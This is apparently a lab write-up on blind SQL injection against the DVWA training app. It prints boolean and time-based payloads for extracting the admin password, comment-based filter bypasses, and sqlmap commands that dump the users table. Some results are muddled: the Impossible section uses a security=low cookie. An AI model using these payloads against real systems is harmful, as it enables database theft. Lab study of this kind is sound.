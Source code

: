 # 🗂️ SQL_Injection (Blind) Writeup

## 📌 Description
Blind SQL Injection is a type of SQL Injection where the attacker cannot directly see query results in the application's response. Instead, the attacker infers information by observing differences in the application’s behavior, such as page content, HTTP status, or response time. 

## ⚙️ Lab Setup
- **Platform**: DVWA (Damn Vulnerable Web Application)
- **Target Page**: `/vulnerabilities/sql_injection(Blind)/`
- **Tested With**: Firefox, Burp Suite, Kali Linux,sqlmap( --wizard) 
- **Security Levels Tested**: Low, Medium, High, Impossible

- *Two techniques used:
  Boolen-based Blind - Infers results using true/false
  Time-based Blind   -Infers results bt delaying the response when a condition is true.

## 🔓 Low Security Level

### 🛠️ Exploitation Steps
Step 1 Boolen-based Blind Test

1 Inject this payloads and observe the differences in page 
-- http://.../sqli_blind/?id=1' AND 1=1 -- page load normally(TRUE condition) 
-- http://.../sqli_blind/?id=1' AND 1=2 -- FALSE condition
NB: There should be space after the comments --  

2 Extract first character of admin password (boolen)
Test if first character is greater than 'm' (char > 'm'):
1' AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1) > 'm' -- 

### ✅ Result

-- The 5 seconds delayed when the guessed character is correct, when you repeaet by changing the position of the substring 2,1 or 3,1 etc  you want to get the full password.

### 🔍 Weaknesses
-- Payloads are sent directly into an SQL query without sanitization, making Blind SQL Injection trivial.

### 🛡️ Mitigation Needed

-- Validate input (type checks for numeric parameters).
-- Hide errors.

## 🟡 Medium Security Level

### 🛠️ Exploitation Steps
1 Use cmment to bypass  filtering 
  1'/**/AND/**/'1'='1'--
Obsevation:
The keyword sleep must always be in bracket else it wont work thus sleep(5)


### ✅ Result
Keyword filtering can be bypassed with inline cooments or quotation excludding

### 🔍 Weaknesses
We don’t need the quotation here for the query to work since the source code didnot add quotation like 1’ AND sleep(5)—4&etc

## 🔴 High Security Level
1 Trigerr a time delay if condition is True:
1' AND IF(SUBSTRING((SELECT password FROM users WHERE user_id=1), 1, 1)='a', SLEEP(5), 0) --
2 Pay attension to response time -- If page is slow, the guessed letter is correct
3 Repeat for each character

### ✅ Result
Timming-based attacks can still leak data

Observation:
There is a random sleep in the in source code which can make it harder to make sure whether your condition works or not
It adds some level of prepared statements

### 🔍Impossible

### 🛠️ Exploitation Steps

observation:
Impossible level is fully secure — proper parameterized queries are used.
Manual injection fails, so we test with SQLMap.
-- sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=e7dddfec2fefe7d07dd9327930a19916" -D dvwa --tables this payload is used to find the number of tables in the database from the dvwa website

-- And this is used to find out the specific table like “user” sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=e7dddfec2fefe7d07dd9327930a19916" -D dvwa -T users

-- You can use the flag dump '--dump' to dump everything and hash the passwords for you thus:
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=e7dddfec2fefe7d07dd9327930a19916" -D dvwa -T users --dump
  
